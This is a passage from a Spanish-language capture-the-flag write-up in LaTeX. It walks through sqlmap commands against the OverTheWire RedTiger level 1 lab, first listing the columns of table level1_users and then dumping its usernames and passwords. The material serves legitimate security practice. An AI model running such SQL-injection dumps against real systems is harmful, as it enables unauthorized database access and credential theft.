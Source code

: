 \documentclass[11pt,letterpaper]{article}
\begin{document}
Una vez obtenidas las tablas toca localizar las columnas, ejecutamos:\\
\begin{lstlisting}[style=consola]
$ sqlmap -u https://redtiger.labs.overthewire.org/level1.php?cat=1 -D hackit -T level1_users --columns --threads 4
\end{lstlisting} 
Parámetros utilizados:\\
\begin{itemize}
\item -T La tabla en la cual ingresaremos.
\item $--$columns El nombre de las columnas que contiene dicha tabla.
\end{itemize}
\begin{center}
\includegraphics[scale=.5]{./Img/sqlmap4.png}
\end{center}~\\~\\
Finalmente como ya tenemos el nombre de la tabla y las columnas que nos interesan, ejecutamos:\\
\begin{lstlisting}[style=consola]
$ sqlmap -u https://redtiger.labs.overthewire.org/level1.php?cat=1 -D hackit -T level1_users -C username,password --dump --threads 4
\end{lstlisting} 
Así obtendremos los usuarios así como sus passwords.\\
Parámetros utilizados:\\
\begin{itemize}
\item -C Las columnas a las cuales queremos acceder en la tabla.
\item $--$dump Obtenemos la información de las columnas.
\end{itemize}
\begin{center}
\includegraphics[scale=.5]{./Img/sqlmap5.png}
\end{center}~\\~\\
\end{document}
